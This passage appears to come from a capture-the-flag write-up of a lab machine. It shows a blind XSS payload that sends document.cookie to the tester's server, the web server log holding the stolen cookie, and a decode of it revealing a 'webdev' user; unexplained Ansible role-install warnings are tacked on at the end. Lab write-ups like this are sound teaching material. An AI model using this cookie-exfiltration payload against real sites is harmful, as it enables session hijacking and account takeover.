 ### Access Dashboard as Wevdev

#### XSS Cookie Grab

Without a lot to go on, I’ll go to the report submission form and try some cross-site scripting (XSS) payloads. I’ve already seen that whatever I submit won’t be displayed back to me, so this would be a blind XSS.

I’ll use a very simple `<img>` tag payload like this:

```

<img src="http://10.10.14.6/description.png" onerror="fetch('http://10.10.14.6/description?cookie='+document.cookie)">

```

It tries to add an image to the page where the source is my host, and will fail. Then it has an `onerror` that gives JavaScript that will try to exfil the current user’s cookie to my server. This could generate up to two requests back to me. The first would show HTML injection, where the image tag is processed and tries to load. When my server 404s `description.png`, then it will try the JavaScript to send the cookie.

I’ll put this in the description field, and another copy in the title, changing “description” to “title” to see which one is firing.

Very quickly I get four connections at my Python webserver:

```
10.10.11.15 - - [03/May/2024 13:55:16] code 404, message File not found
10.10.11.15 - - [03/May/2024 13:55:16] "GET /title.png HTTP/1.1" 404 -
10.10.11.15 - - [03/May/2024 13:55:16] code 404, message File not found
10.10.11.15 - - [03/May/2024 13:55:16] "GET /description.png HTTP/1.1" 404 -
10.10.11.15 - - [03/May/2024 13:55:17] code 404, message File not found
10.10.11.15 - - [03/May/2024 13:55:17] "GET /title?cookie=user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 404 -
10.10.11.15 - - [03/May/2024 13:55:17] code 404, message File not found
10.10.11.15 - - [03/May/2024 13:55:17] "GET /description?cookie=user_data=eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4 HTTP/1.1" 404 -

```

Both fired, returning the same cookie twice!

This cookie is for the adam user, and does have a different role than the account I was able to register:

```

oxdf@hacky$ echo "eyJ1c2VyX2lkIjogMiwgInVzZXJuYW1lIjogImFkYW0iLCAicm9sZSI6ICJ3ZWJkZXYifXw1OGY2ZjcyNTMzOWNlM2Y2OWQ4NTUyYTEwNjk2ZGRlYmI2OGIyYjU3ZDJlNTIzYzA4YmRlODY4ZDNhNzU2ZGI4" | base64 -d
{"user_id": 2, "username": "adam", "role": "webdev"}|58f6f725339ce3f69d8552a10696ddebb68b2b57d2e523c08bde868d3a756db8

```


[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /tmp/0xdf.tar was NOT installed successfully: this role does not appear to have a meta/main.yml file.
[WARNING]: - /dev/shm/0xdf.tar was NOT installed successfully: the specified roles path exists and is not a directory.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf2.tar is empty. Skipping dependencies.
[WARNING]: Meta file /root/.ansible/roles/0xdf3.tar is empty. Skipping dependencies.